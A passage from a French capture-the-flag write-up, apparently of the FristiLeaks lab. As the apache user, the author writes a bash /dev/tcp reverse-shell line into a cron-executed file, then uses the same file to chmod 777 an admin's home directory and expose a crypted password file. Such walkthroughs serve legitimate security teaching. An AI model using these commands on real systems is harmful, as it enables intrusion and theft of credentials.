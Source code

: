 Dommage, il ne semble pas possible cette fois-ci de mettre en place un _reverse shell_.

```console
bash-4.1$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-4.1$ echo "bash -i >& /dev/tcp/192.168.56.101/23456 0>&1" > /tmp/runthis
echo "bash -i >& /dev/tcp/192.168.56.101/23456 0>&1" > /tmp/runthis
```

```console
root@blinils:~# nc -lvp 23456
listening on [any] 23456 ...

--waiting but nothing--
```

L'une des solutions consiste à rendre accessible le contenu du répertoire /home/admin grâce à chmod.

```console
bash-4.1$ echo "/home/admin/chmod -R 777 /home/admin" > /tmp/runthis
echo "/home/admin/chmod -R 777 /home/admin" > /tmp/runthis

bash-4.1$ ls /home/admin
ls /home/admin
ls: cannot open directory /home/admin: Permission denied

--waiting--

bash-4.1$ ls /home/admin
ls /home/admin
cat    cronjob.py	cryptpass.py  echo   grep  whoisyourgodnow.txt
chmod  cryptedpass.txt	df	      egrep  ps
```

```console
bash-4.1$ ls -al /home/admin
ls -al
total 652
drwxrwxrwx. 2 admin     admin       4096 Nov 19  2015 .
drwxr-xr-x. 5 root      root        4096 Nov 19  2015 ..
-rwxrwxrwx. 1 admin     admin         18 Sep 22  2015 .bash_logout
-rwxrwxrwx. 1 admin     admin        176 Sep 22  2015 .bash_profile
-rwxrwxrwx. 1 admin     admin        124 Sep 22  2015 .bashrc
-rwxrwxrwx  1 admin     admin      45224 Nov 18  2015 cat
-rwxrwxrwx  1 admin     admin      48712 Nov 18  2015 chmod
-rwxrwxrwx  1 admin     admin        737 Nov 18  2015 cronjob.py
-rwxrwxrwx  1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rwxrwxrwx  1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxrwxrwx  1 admin     admin      90544 Nov 18  2015 df
-rwxrwxrwx  1 admin     admin      24136 Nov 18  2015 echo
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 egrep
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 grep
-rwxrwxrwx  1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r--  1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
```
